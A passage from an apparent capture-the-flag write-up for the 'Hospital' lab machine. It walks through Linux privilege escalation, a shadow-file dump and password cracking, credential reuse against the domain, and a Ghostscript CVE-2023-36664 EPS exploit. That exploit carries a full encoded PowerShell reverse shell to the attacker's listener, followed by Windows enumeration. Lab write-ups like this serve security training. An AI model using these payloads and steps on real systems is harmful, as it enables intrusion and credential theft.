Sudo version 1.9.13p1    


                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════                                                                                                                               
                                   ╚═══════════╝                                                                                                                                                                  
╔══════════╣ Container related tools present (if any):
/snap/bin/lxc                                                                                                                                                                                                     
╔══════════╣ Am I Containered?
╔══════════╣ Container details                                                                                                                                                                                    
═╣ Is this a container? ........... No                                                                                                                                                                            
═╣ Any running containers? ........ No    


══════════════════════════════╣ Network Information ╠══════════════════════════════                                                                                                                               
                              ╚═════════════════════╝                                                                                                                                                             
╔══════════╣ Hostname, hosts and DNS
webserver                                                                                                                                                                                                         
127.0.0.1 localhost
127.0.1.1 webserver

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0 trust-ad
search .

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                                                                               
link-local 169.254.0.0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.5.2  netmask 255.255.255.0  broadcast 192.168.5.255
        inet6 fe80::215:5dff:fe00:8a02  prefixlen 64  scopeid 0x20<link>
        ether 00:15:5d:00:8a:02  txqueuelen 1000  (Ethernet)
        RX packets 294664  bytes 58107185 (58.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 267435  bytes 134735113 (134.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1010414  bytes 71807002 (71.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1010414  bytes 71807002 (71.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                 
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -       


╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                                                                                   

╔══════════╣ Users with console
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash                                                                                                                                                   
root:x:0:0:root:/root:/bin/bash
```

here a small recap:

- It's a Ubuntu VM on 23.04 with kernel 5.19 (don't think we have much here)
- It's a LXC containerization
- No strange internal connections except the SQL
- We can see the internal IP of the machine (we are sure we are into a Container right now...)
- We have another user (Lucy Williams)
- Possible vunerable version of sudo?

Now here we don't have that much, we could try to check that sudo for vulnerability of this:

```
https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc
```

Which offcourse fails:

```
www-data@webserver:/tmp$ ./exploit.sh 
./exploit.sh
> Currently installed sudo version is not vulnerable
www-data@webserver:/tmp$
```

TBH I had to check for tips and apparently the fix here was targeting that specific version of linux kernel 5.19.0 where I was sure was pretty new and no exploits available in the wild but the forum tipsed to use this exploit:

\*\*OBS\*\*: Here i tried to run latest version of linpeas but the exploit suggester haven't suggested to use this new exploit so I guess it could have found about it only by myself.

And running the exploit.sh linked gives us access to root!

```
www-data@webserver:/tmp$ ./exploit.sh 
./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@webserver:/tmp#
```

Now under Lucy's home we can't find anything:

```
root@webserver:/home/drwilliams# ls -al
ls -al
total 32
drwxr-x--- 5 drwilliams drwilliams 4096 Oct 29 01:42 .
drwxr-xr-x 3 root       root       4096 Oct 29 02:02 ..
lrwxrwxrwx 1 root       root          9 Oct 26 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 drwilliams drwilliams  220 Jan  7  2023 .bash_logout
-rw-r--r-- 1 drwilliams drwilliams 3771 Jan  7  2023 .bashrc
drwx------ 3 drwilliams drwilliams 4096 Sep 14 14:47 .cache
-rw-r--r-- 1 drwilliams drwilliams  807 Jan  7  2023 .profile
drwx------ 2 drwilliams drwilliams 4096 Sep 12 17:31 .ssh
drwxrwxr-x 3 drwilliams drwilliams 4096 Sep 14 14:47 go
root@webserver:/home/drwilliams# cd go
```

But beeing root now we should be able to read all password hashes from /etc/shadow:

```
root@webserver:/etc# cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:106::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:101:1::/var/cache/pollinate:/bin/false
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
syslog:x:103:109::/nonexistent:/usr/sbin/nologin
uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
root@webserver:/etc# cat shadow
cat shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
root@webserver:/etc#
```

Let's try to crack her password? First we need to unshadow:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# unshadow passwd.txt shadow.txt > temp.txt                                                                                                                                                                     

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# cat temp.txt 
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:*:42:65534::/nonexistent:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:!*:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:!*:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:!:100:106::/nonexistent:/usr/sbin/nologin
systemd-resolve:!*:996:996:systemd Resolver:/:/usr/sbin/nologin
pollinate:!:101:1::/var/cache/pollinate:/bin/false
sshd:!:102:65534::/run/sshd:/usr/sbin/nologin
syslog:!:103:109::/nonexistent:/usr/sbin/nologin
uuidd:!:104:110::/run/uuidd:/usr/sbin/nologin
tcpdump:!:105:111::/nonexistent:/usr/sbin/nologin
tss:!:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:!:107:113::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:!:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:!:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:!:109:116:MySQL Server,,,:/nonexistent:/bin/false
```

And we have some creds!

```
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz...W192y/
Time.Started.....: Thu Nov 23 15:43:44 2023 (2 mins, 2 secs)
Time.Estimated...: Thu Nov 23 15:45:46 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1764 H/s (8.31ms) @ Accel:512 Loops:128 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 214528/14344385 (1.50%)
Rejected.........: 0/214528 (0.00%)
Restore.Point....: 214016/14344385 (1.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidate.Engine.: Device Generator
Candidates.#1....: raycharles -> pl@yboy

Started: Thu Nov 23 15:43:43 2023
Stopped: Thu Nov 23 15:45:47 2023
```

* * *

## Road to USER.txt

Now that we have DRWilliams creds we can try to login via evilwinrm but it's failing!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# evil-winrm -i hospital.htb -u drwilliams 
Enter Password: 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```

Seems like Lucy have ldap creds?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# crackmapexec ldap hospital.htb -u "drwilliams" -p pass.txt             auth

[*] completed: 100.00% (1/1)

[*] completed: 100.00% (1/1)
SMB         hospital.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
LDAPS       hospital.htb    636    DC               [+] hospital.htb\drwilliams:qwe123!@# 

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
```

But when we try to dump the AD via Bloodhound python it fails on clockskew(timediff between DC and our machine):

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# bloodhound-python -u "drwilliams" -d "hospital.htb" -ns 10.10.11.241 -c all --zip
Password: 
INFO: Found AD domain: hospital.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.hospital.htb
```

So trying out the Lucy credentials on Roundcube we have a login:



Now lookin around seems like the Webmail is pretty empty but we can see another user called dbrown:



But we can see a mail popping from DR Brown about some needles and mentioning to send him a .eps file containing a Ghostscript format. This might be our way in as Chris Brown hehe. So looking around I found this one!

```
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
```

I might just give a shot! So launching something similar we should be able to generate a EPS with a revshell Ghostscript code in it!

```
└─# python3 CVE_2023_36664_exploit.py -g -p "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgAiACwANgA2ADYANgApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" -x eps -f simonsmons
[+] Generated EPS payload file: simons.eps
```

And next sending the file to DRBrown should invoke a shell?



This will not work as revshell generates a shell for Unix only so we can use the payload instead and maybe inject a powershell reverse shell there instead!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 6666                                                                                                                                                                                                 
listening on [any] 6666 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.241] 11686

PS C:\Users\drbrown.HOSPITAL\Documents>
```

Nice now we can grab our first flag!

```
PS C:\Users\drbrown.HOSPITAL> cd Desktop
PS C:\Users\drbrown.HOSPITAL\Desktop> ls


    Directory: C:\Users\drbrown.HOSPITAL\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       11/21/2023   8:43 AM             34 user.txt                                                              


PS C:\Users\drbrown.HOSPITAL\Desktop> cat user.txt
94f6165459f491ada5eaabbd8004f356
PS C:\Users\drbrown.HOSPITAL\Desktop>
```

* * *

## Road to ROOT.txt

Now we need to find a way to elevate to Administrator and grab the last flag. I will start by checking for possible permissions from this user?

```
94f6165459f491ada5eaabbd8004f356
PS C:\Users\drbrown.HOSPITAL\Desktop> whoami /all

USER INFORMATION
----------------

User Name        SID                                           
================ ==============================================
hospital\drbrown S-1-5-21-4208260710-2273545631-1523135639-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users                Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users               Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
PS C:\Users\drbrown.HOSPITAL\Desktop>
```

Not much hehe, but here I suggest to upload Sharphound and check for permissions in the AD. Upgrade the shell to a metepreter.

And lastly upload Winpeas and check for possible missing files.

Here checking the bat file used by ghostscript in DRBrowns document folder we can see his credentials in the system!

```
Directory: C:\Users\drbrown.HOSPITAL\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/23/2023   3:33 PM            373 ghostscript.bat                                                       
-a----       11/21/2023   8:47 AM           7168 r8888.exe                                                             
-a----       11/21/2023   8:51 AM          20321 shell.php                                                             


PS C:\Users\drbrown.HOSPITAL\Documents> cat ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
PS C:\Users\drbrown.HOSPITAL\Documents>
```

Now here I will upgrade the NC shell to a metepreter and fuzz thru the exploit suggester to find some possible exploits!

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.241 - Collecting local exploits for x64/windows...
[*] 10.10.11.241 - 188 exploit checks are being tried...
[+] 10.10.11.241 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/cve_2022_21882_win32k: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 10.10.11.241 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 45 / 45
[*] 10.10.11.241 - Valid modules for session 1:
============================
```

&nbsp;Trying the Spoolfool seems like it's failing somehow but I guess it needs some more fine tuning?

```
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 10.10.16.2:7777 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[-] Exploit failed [user-interrupt]: Rex::TimeoutError Send timed out
[-] run: Interrupted
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) >
```

Next I want to check is to upload Winpeas and this one:https://github.com/affix/CVE-2022-22718-SpoolFool

I will upload Sharphound.exe and analyze the result in Bloodhound!

&nbsp;

Next I will run Winpeas.exe and check for hints for upgrades:

```
ÉÍÍÍÍÍÍÍÍÍ͹ User Environment Variables
È Check for some passwords or keys in the env variables 
    COMPUTERNAME: DC
    USERPROFILE: C:\Users\drbrown.HOSPITAL
    HOMEPATH: \Users\drbrown.HOSPITAL
    LOCALAPPDATA: C:\Users\drbrown.HOSPITAL\AppData\Local
    PSModulePath: C:\Users\drbrown.HOSPITAL\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    PROCESSOR_ARCHITECTURE: AMD64
    Path: C:\Program Files\Python312\Scripts\;C:\Program Files\Python312\;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Program Files\gs\gs10.01.1\bin;C:\Program Files\PuTTY\;C:\Program Files\dotnet\;C:\Users\drbrown.HOSPITAL\AppData\Local\Microsoft\WindowsApps
    CommonProgramFiles(x86): C:\Program Files (x86)\Common Files
    ProgramFiles(x86): C:\Program Files (x86)
    PROCESSOR_LEVEL: 23
    LOGONSERVER: \\DC
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.PY;.PYW;.CPL
    HOMEDRIVE: C:
    SystemRoot: C:\Windows
    ALLUSERSPROFILE: C:\ProgramData
    DriverData: C:\Windows\System32\Drivers\DriverData
    APPDATA: C:\Users\drbrown.HOSPITAL\AppData\Roaming
    PROCESSOR_REVISION: 3100
    USERNAME: drbrown
    CommonProgramW6432: C:\Program Files\Common Files
    CommonProgramFiles: C:\Program Files\Common Files
    OS: Windows_NT
    USERDOMAIN_ROAMINGPROFILE: HOSPITAL
    PROCESSOR_IDENTIFIER: AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
    ComSpec: C:\Windows\system32\cmd.exe
    SystemDrive: C:
    TEMP: C:\Users\drbrown.HOSPITAL\AppData\Local\Temp
    ProgramFiles: C:\Program Files
    NUMBER_OF_PROCESSORS: 2
    TMP: C:\Users\drbrown.HOSPITAL\AppData\Local\Temp
    ProgramData: C:\ProgramData
    ProgramW6432: C:\Program Files
    windir: C:\Windows
    USERDOMAIN: HOSPITAL
    PUBLIC: C:\Users\Public
    USERDNSDOMAIN: hospital.htb


ÉÍÍÍÍÍÍÍÍÍ͹ Current User Idle Time
   Current User   :     HOSPITAL\drbrown
   Idle Time      :     01h:17m:26s:968ms

ÉÍÍÍÍÍÍÍÍÍ͹ Display Tenant information (DsRegCmd.exe /status)
   Tenant is NOT Azure AD Joined.

ÉÍÍÍÍÍÍÍÍÍ͹ Current Token privileges
È Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation
    SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

ÉÍÍÍÍÍÍÍÍÍ͹ Interesting Services -non Microsoft-
È Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services                                                                                                                                                                                                           
  [X] Exception: Access denied 
    Apache2.4(Apache Software Foundation - Apache2.4)["C:\xampp\apache\bin\httpd.exe" -k runservice] - Autoload
    Possible DLL Hijacking in binary folder: C:\xampp\apache\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])
    Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28


ÉÍÍÍÍÍÍÍÍÍ͹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\dotnet
    C:\Program Files\Google
    C:\Program Files\gs
    C:\Program Files\Hyper-V
    C:\Program Files\internet explorer
    C:\Program Files\Microsoft
    C:\Program Files\Microsoft UCMA 4.0
    C:\Program Files\MSBuild
    C:\Program Files\PackageManagement
    C:\Program Files\PuTTY
    C:\Program Files\Python312
    C:\Program Files\Reference Assemblies
    C:\Program Files\Uninstall Information
    C:\Program Files\VMware
    C:\Program Files\Windows Defender
    C:\Program Files\Windows Defender Advanced Threat Protection
    C:\Program Files\Windows Identity Foundation
    C:\Program Files\Windows Mail
    C:\Program Files\Windows Media Player
    C:\Program Files\Windows Multimedia Platform
    C:\Program Files\windows nt
    C:\Program Files\Windows Photo Viewer
    C:\Program Files\Windows Portable Devices
    C:\Program Files\Windows Security
    C:\Program Files\Windows Sidebar
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
    C:\xampp(Users [AppendData/CreateDirectories WriteData/CreateFiles])


ÉÍÍÍÍÍÍÍÍÍ͹ Host File
    192.168.5.2 webserver.hospital.htb
    127.0.0.1 dc.hospital.htb


ÉÍÍÍÍÍÍÍÍÍ͹ Putty SSH Host keys
    ssh-ed25519@22:192.168.5.2: 
   =================================================================================================


ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating machine and user certificate files
                                                                                                                                                                                                                  
  Issuer             : CN=Microsoft Exchange Server Auth Certificate
  Subject            : CN=Microsoft Exchange Server Auth Certificate
  ValidDate          : 9/6/2023 3:51:36 AM
  ExpiryDate         : 8/10/2028 3:51:36 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 9FF9004257B99858AD823BFB1BAC937E00B085CA

  Enhanced Key Usages
       Server Authentication
   =================================================================================================

  Issuer             : CN=localhost
  Subject            : CN=localhost
  ValidDate          : 9/5/2023 11:39:33 AM
  ExpiryDate         : 12/31/9999 3:59:59 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 9A715EDFA800A941BC5C988990034AB3DA288D34

  Enhanced Key Usages
       Server Authentication
   =================================================================================================

  Issuer             : CN=DC
  Subject            : CN=DC
  ValidDate          : 9/6/2023 3:49:03 AM
  ExpiryDate         : 9/6/2028 3:49:03 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 17E58592278F4E8F8CE1554C35509C02282591E3

  Enhanced Key Usages
       Server Authentication
   =================================================================================================

  Issuer             : CN=localhost
  Subject            : CN=localhost
  ValidDate          : 9/5/2023 11:50:18 AM
  ExpiryDate         : 12/31/9999 3:59:59 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 0F3D712F03CE715191BE2E13E45D121B44EED90D

  Enhanced Key Usages
       Server Authentication
   =================================================================================================
```

Ok here instead I see some ADCS certificates that we might want to check via Certipy.exe or similar then I see some possible write permissions in Xampp???

&nbsp;

* * *

## \*\*UNINTENDED WAY\*\*

Looking about on the HTTPS(Rouncube) I found out that a Shell was available so I could get it running as NTSystem and get all the flags needed!

```
[13:38:07] 404 -  300B  - /sftp-config.json                                 
[13:38:07] 404 -  300B  - /settings.php.save                                
[13:38:07] 404 -  300B  - /setup.log
[13:38:07] 200 -   15KB - /shell.php                                        
